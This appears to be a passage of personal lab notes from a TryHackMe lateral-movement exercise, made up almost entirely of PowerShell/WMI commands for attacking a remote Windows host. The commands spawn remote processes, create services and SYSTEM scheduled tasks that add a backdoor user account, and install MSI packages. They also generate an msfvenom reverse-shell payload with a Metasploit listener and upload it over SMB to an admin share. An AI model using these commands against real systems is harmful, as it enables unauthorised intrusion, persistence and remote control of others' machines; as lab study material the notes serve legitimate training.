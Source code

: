 - We can use WMI to spawn remote processes
```bash
$Command = "powershell.exe -Command Set-Content -Path C:\crypt0ace.txt -Value cryptoacewashere";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

- We can use WMI to create and start services
```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "cryptoace";
DisplayName = "cryptoace";
PathName = "net user cryptoace Password123! /add";
ServiceType = [byte]::Parse("16");
StartMode = "Manual"
}

$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'cryptoace'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

- We can use WMI to create scheduled takes
```bash
$Command = "cmd.exe"
$Args = "/c net user cryptoace Password123! /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "cryptoace"
Start-ScheduledTask -CimSession $Session -TaskName "cryptoace"
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

- If we have a MSI package on the target we can use WMI to execute it
```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\cryptoace.msi"; Options = ""; AllUsers = $false}
```

- Another way to do it
```bash
# On kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=443 -f msi > cryptoace.msi
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/shell_reverse_tcp; set LHOST lateralmovement; set LPORT 443;exploit"

# On Windows
smbclient -c 'put cryptoace.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/'
```

- We can then start it using
```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\cryptoace.msi"; Options = ""; AllUsers = $false}
```
